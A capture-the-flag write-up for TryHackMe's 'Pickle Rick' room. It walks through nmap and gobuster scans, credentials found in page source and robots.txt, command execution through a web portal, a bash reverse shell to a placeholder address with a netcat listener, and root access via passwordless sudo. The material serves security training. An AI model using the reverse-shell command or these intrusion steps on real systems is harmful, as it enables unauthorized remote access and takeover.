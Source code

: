 ```yaml
---
title: "TryHackMe - Pickle Rick"
permalink: /writeups/tryhackme/pickle-rick
---
```


![TryHackMe - Pickle Rick (Easy)](images/Pickle_Rick.jpeg)
<h1><ins>TryHackMe: Pickle Rick</ins></h1>

**Date:** 11/11/2022\
**Author:** [acfirthh](https://github.com/acfirthh)

**Machine Name:** Pickle Rick\
**Difficulty:** Easy\
**Link to Machine:** [TryHackMe - Pickle Rick (Easy)](https://tryhackme.com/room/picklerick) 

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-11 17:59 GMT
Nmap scan report for 10.10.32.121
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 463661da27ac12579f77e04349112ba9 (RSA)
|   256 30d8339c46870d29365ff6770c7f31c3 (ECDSA)
|_  256 f35aa4804bd71f7d68a4735ad4e9e489 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the NMAP scan, I can see that there is a website hosted on port 80. Browsing to the website, it seems to be a pretty uninteresting page. So I decide to do a Gobuster scan.

## Gobuster Scan
```
/index.html
/login.php
/assets
/portal.php
/robots.txt
```
Checking **/robots.txt** I see there is some text, I first thought maybe it could be a directory, but trying to browse to it returns a **404 Not Found** so I noted it down anyway, _maybe it'll come in handy later..._

**/assets** just contains images, CSS, and JavaScript files but nothing useful.

**/portal.php** redirects straight to the **/login.php** page.

At this point I thought I'd view the source code of the pages and there just happened to be some useful information waiting for me in the HTML of **/index.html**
```
Note to self, remember username!
Username: R1ckRul3s
```

Well, now we have a username, maybe we can try guess some passwords for the login page. Remembering the text we found before in **/robots.txt**, maybe that could be a possible password... SUCCESS! I'm logged in and redirected to **/portal.php**. It's a dashboard where I can run system commands on the machine.

## Foothold
Running the command `ls`, it returns a list of files in the directory of the webserver:
```
Sup3rS3cretPickl3Ingred.txt   <-- This is the first flag we need for the CTF
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Trying to read files using `cat`, it returns that the command is blocked. Instead, I decided to get a shell on the machine.

- First I started a listener: `nc -nvlp <port>`
- Then I ran this command to get a reverse shell: `bash -c "bash -i >& /dev/tcp/<ip_address>/<port> 0>&1"`

A shell on the machine! Now I can read the **Sup3rS3cretPickl3Ingred.txt** file to get the first flag.

Changing directory to **/home** I see there are two home directories, **rick** and **ubuntu**. Moving into **/home/rick** I see the second flag needed for the CTF.

## Privilege Escalation (root)
Running `sudo -l` to check if the user had any sudo privileges returned:
```
User www-data may run the following commands on ip-10-10-153-73.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
Fantastic! I can run any command I want, using sudo, with NO PASSWORD!

I run `sudo /bin/bash` spawns a root shell!

Changing directory to **/root**, I find the final flag needed to complete the CTF!
